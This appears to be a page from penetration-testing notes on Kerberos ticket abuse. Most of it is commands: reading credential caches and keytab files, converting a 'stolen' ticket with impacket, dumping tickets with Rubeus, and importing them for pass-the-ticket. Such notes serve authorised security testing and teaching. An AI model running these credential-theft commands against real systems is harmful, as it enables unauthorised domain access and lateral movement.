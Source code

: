 #### Kerberos Ticket & Cache Abuse

Obtain Kerberos tickets from Windows or Linux systems. 

For Linux, check `/tmp/krb5*`, `/etc/*.keytab`, and read `/etc/krb5.conf`.

To convert between a Kerberos ticket and a ccache file, use impacket:
```
# convert
$ ticketConverter.py /tmp/krb5cc_613516103_maDBOTO /tmp/stolen_ticket.kirbi

$ ticketConverter.py stolen_ticket.kirbi stolen_ticket.ccache
```

For Windows, use something like ``Rubeus``.

```
# grab base64 encoded ticket
> Rubues tgtdeleg

> execute-assembly /tmp/Rubeus.exe dump /nowrap
```

Import in Linux

```
# install resources
$ apt install krb5-user -y

# export
$ export KRB5CCNAME=/tmp/krb5cc_minenow

# verify
$ klist

# renew
$ kinit -R

# destroy
$ kdestroy

# Request a service ticket
$ kvno MSSQLSvc/DC01.corp1.com:1433
```

Import in Windows

```
# using rubeus
> .\Rubeus.exe ptt /ticket:<base64 or filepath>
```

#### Leverage Kerberos tickets from Linux

Leverage Kerberos to interact with the domain. Add domain controller to /etc/hosts & use proxychains to come from correct source. 
